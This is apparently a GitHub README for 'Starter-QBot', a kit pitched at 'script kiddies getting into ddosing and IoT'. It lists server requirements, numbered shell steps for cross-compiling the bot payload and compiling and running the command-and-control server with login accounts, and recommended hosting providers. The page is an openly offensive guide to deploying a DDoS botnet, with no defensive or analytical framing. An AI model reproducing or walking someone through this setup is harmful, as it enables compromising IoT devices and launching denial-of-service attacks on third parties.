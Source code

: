 <h2>Starter-QBot</h2>
<p>This is a starter Qbot for a script kiddies getting into ddosing and IoT.</p>

<div>
  <h2>Requirements</h2><lu>
  <li>A VPS Server (2GB Ram & 2v Cores)
  <li>Centos 6.9 or Debian 9 or above
    </lu>

<div><h2>Tutorial</h2>
<pre><code> _____ _____     _      _____     _   
|     | __  |___| |_   |_   _|_ _| |_ 
|  |  | __ -| . |  _|    | | | | |  _|
|__  _|_____|___|_|      |_| |___|_|  
   |__|                               by D3fe4ted

1. sudo apt install python screen gcc nano perl
2. go to client and change (ip)
3. python2 cc7.py client.c (ip)
4. Save your payload
5. gcc server.c -o server -pthread
6. nano login.txt (username password role mm/dd/yy)
7. screen ./server 23 1000 (port)
8. sudo ./server (port) 1000 (port) (If step 7 doesn't work)</pre></code>
   <div>

<div>
  <h2>Recommended Hosting</h2><lu>
  <li><a href="https://sacred.sbs/">Sacred Hosting</a>
  <li><a href="https://www.cloudways.com/en/">Cloudways</a>
  <li><a href="https://crazyrdp.com/linux-vps-hosting/">CrazyRDP</a>
    <div>
